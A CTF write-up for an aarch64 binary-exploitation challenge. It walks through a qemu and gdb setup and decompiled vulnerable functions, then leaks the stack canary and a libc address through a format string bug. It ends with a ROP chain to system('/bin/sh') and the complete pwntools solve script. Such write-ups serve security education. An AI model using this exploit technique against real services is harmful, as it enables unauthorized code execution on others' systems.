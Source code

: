 ![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/821f9720-c70c-4f8e-b171-361268854f69)

This was the first time I faced a challenge that was using aarch64 architecture. Unfortunately, I wasn't able to solve this during the CTF but I read the writeups and was able to try it myself.

NOTE : The solve script is the official writeup from the author. This is just my attempt at explaining how to solve this challenge

To be able solve this challenge, we first must set up the environment for the challenge.

## Setup

For debugging, we can use 

```
gdb-multiarch: sudo apt-get install gdb-multiarch
```

To run the binary, we need to install

```
qemu: sudo apt-get install qemu-user-static
libs: sudo apt-get install libc6-arm64-cross installs to /usr/aarch64-linux-gnu/
Running the binary
```

Next, we need to extract the libc from the Dockerfile.

```
docker run -v "`pwd`:/chal" -it <HASH> bash
```

Replace <HASH> with the hash value from the Dockerfile and it should set you up in the environment and mount files in your current directory into the /chal folder. Next, go into the chal folder and run `ldd ./chal` to look for the libc. After locating it, now you must run `cp /lib/x86_64-linux-gnu/<YOUR_LIBC> .` and copy the libc to the current directory. Use the command `exit` to leave the docker instance

### Debugging

```
qemu-aarch64-static -g 1234 ./chal
```

Run this command and pass in the -g flag which enables debugging mode

```
$gdb-multiarch
file chal
target remote :1234
```

Now, we will connect to our remote debugging session at port 1234


## Initial Analysis

```
└─$ checksec --file=chal         
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   108 Symbols       No    0               2               chal
```

Stack Canary and NX has been enabled

<details>
<summary>get_address()</summary>
  
```c
void get_address(void)

{
  int iVar1;
  char acStack_30 [40];
  long local_8;
  
  local_8 = ___stack_chk_guard;
  printf("\tCould we have an address to ship said appendage? ",0);
  __isoc99_scanf(&DAT_00400ea0,acStack_30);
  printf("\nThanks, we will ship to: ");
  printf(acStack_30);
  iVar1 = putchar(10);
  clear_buffer(iVar1);
  if (local_8 - ___stack_chk_guard != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(&__stack_chk_guard,0,local_8 - ___stack_chk_guard);
  }
  return;
}
```

</details>

<details>
<summary>feedback()</summary>
  
```c
void feedback(void)

{
  char buff [104];
  long local_8;
  
  local_8 = ___stack_chk_guard;
  puts("Care to leave some feedback?!");
  fgets(buff,256,_stdin);
  puts("Thanks!");
  if (local_8 - ___stack_chk_guard != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(&__stack_chk_guard,0,local_8 - ___stack_chk_guard);
  }
  return;
}
```

</details>

From the results of the decompilation, it is clear that we need to leak the stack canary using the format string vulnerability and overflow the feedback function into a ret2libc 

## Exploitation

So after entering the %p format, we found out that we can get a canary leak at %19$p and a libc leak at %21$p

![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/a1aca2b8-af69-439a-bd8d-1c3371a8dd02)

Using gdb to inspect the memory

![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/97707e63-a6c0-41cf-8cee-c3be236d0d34)

We found that the leak is located inside __libc_start_main at offset 152. We can easily calculate the libc address using

```py
libc_start_main = libc_start_main_leak - 152
libc.address = libc_start_main - libc.symbols['__libc_start_main']
```

## ROP

Before we go into the ROP, we need to first understand the registers in aarch64.

### Registers

x0 to x7 are used to pass arguments, similar to rdi, rsi and rdx

x29 is similar to rbp

x30 stores the return address

### Function Prologue, Epilogue and Stack Layout

For this part, you can read this [writeup](https://d0ublew.github.io/writeups/imaginaryctf-2023/pwn/generic-rop-challenge/index.html)

Now, we need to look for suitable gadgets that can pass in "/bin/sh" into the x0 register and call system()

```
0x00000000004008f4 # 0x00000000004008f4 : ldr x19, [sp, #0x10] ; ldp x29, x30, [sp], #0x20 ; ret
0x0000000000400910 # 0x0000000000400910 : mov x2, sp ; ldp x29, x30, [sp], #0x10 ; ret
0x000000000040091c : ldr x0, [x2, #0x10] ; ldp x29, x30, [sp], #0x10 ; ret
```

Fortunately for us, there gadgets are available which lets us mov a value we specify into x2, then load the value from x2 (at a offset of 0x10) into x0

```py
payload = flat([
    'a' * 104,
    canary,
    'b' * 8,    #x29
    mov_x2_sp,  #x30
    'c' * 8,
    canary,
    'd' * 8,    #x2     #x29
    ldr_x19,            #x30
    binsh,
    ldr_x0_x2,
    'e' * 24,
    libc.symbols['system']
])
```

This is what our payload will look like

![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/e9800280-2260-4923-88f8-8450d01f0d8f)

First, we will overflow with the canary, b*8 for x29 and mov_x2_sp for x30. So when main returns, it will return to mov_x2_sp and increment $sp by 32, so the $sp will now point to dddddddd

`mov_x2_sp = 0x0000000000400910 # 0x0000000000400910 : mov x2, sp ; ldp x29, x30, [sp], #0x10 ; ret`

Since $sp point to dddddddd, it will be mov into x2 so x2 = dddddddd, then it will load dddddddd and ldr_x19 into x29, x30 respectively. Then $sp will increment by 16 and will now point to binsh

`ldr_x19 = 0x00000000004008f4 # 0x00000000004008f4 : ldr x19, [sp, #0x10] ; ldp x29, x30, [sp], #0x20 ; ret`

Since $sp point to binsh, it will load sp + 16 into x19, so now x19 will point to eeeeeeee. Then, it will load binsh and ldr_x0_x2 into x29, x30 respectively. Then $sp will increment by 32 and will now point to the last 8 eeeeeeee

`ldr_x0_x2 = 0x000000000040091c # 0x000000000040091c : ldr x0, [x2, #0x10] ; ldp x29, x30, [sp], #0x10 ; ret`

Since x2 is pointing to dddddddd, it will load dddddddd + 16, which is binsh into x0. Then, it will load eeeeeeee and libc.symbol['system'] into x29, x30 respectively. Then return to system because its in x30

## Official Solve Script

```py
from pwn import *

# context.terminal = ['tmux', 'split-window', '-h']

elf = context.binary = ELF('chal')
libc = ELF('libc.so.6')
ld = ELF('ld-linux-aarch64.so.1')

p = process('qemu-aarch64 -g 1234 chal'.split())

# p = process('qemu-aarch64 chal'.split())

# p = remote('localhost', 1234)

p.sendlineafter(b'2. Legs\n', b'1')
p.sendlineafter(b'of?\n', b'1337')
p.sendlineafter(b'appendage? ', b'%13$p%21$p%19$p')

p.recv()
leaks = p.recv().split(b'0x')
# main is at the 23rd offset
main_leak = leaks[1]
main = int(main_leak, 16)
# libc_start_main + 152 is at the 21st offset MAKE SURE TO SUBTRACT 152 FROM THE LEAK
libc_start_main_leak = leaks[2]
libc_start_main = int(libc_start_main_leak, 16) - 152

canaryleak = leaks[3].split(b'\n')[0]
canary = int(canaryleak, 16)

print(hex(libc.symbols['__libc_start_main']))
libc.address = libc_start_main - libc.symbols['__libc_start_main']
print(leaks)
print(hex(canary))
print(hex(libc.address))

ldr_x19 = 0x00000000004008f4 # 0x00000000004008f4 : ldr x19, [sp, #0x10] ; ldp x29, x30, [sp], #0x20 ; ret
binsh = libc.search(b'/bin/sh').__next__()
mov_x2_sp = 0x0000000000400910 # 0x0000000000400910 : mov x2, sp ; ldp x29, x30, [sp], #0x10 ; ret
ldr_x0_x2 = 0x000000000040091c # 0x000000000040091c : ldr x0, [x2, #0x10] ; ldp x29, x30, [sp], #0x10 ; ret
payload = flat([
    'a' * 104,
    canary,
    'b' * 8,    #x29
    mov_x2_sp,  #x30
    'c' * 8,
    canary,
    'd' * 8,    #x2     #x29
    ldr_x19,            #x30
    binsh,
    ldr_x0_x2,
    'e' * 24,
    libc.symbols['system']
])

p.sendline(payload)
p.interactive()
```
